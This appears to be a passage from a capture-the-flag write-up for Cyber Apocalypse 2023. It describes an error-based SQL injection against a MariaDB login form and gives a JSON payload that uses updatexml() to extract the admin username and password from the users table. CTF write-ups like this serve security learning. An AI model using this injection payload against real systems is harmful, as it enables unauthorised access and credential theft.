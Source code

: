 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319122137.png)

- MySQL version: 10.6.12-MariaDB

Since we found the `admin` user is in table `users` from the source code, we can skip the enumerating table and column names process.

**Extract `admin` user data:**
```json
{"username":"\"AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),username,0x3a,password,CHAR(126)) FROM users LIMIT 0,1)),null)-\"","password":"test"}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319123325.png)
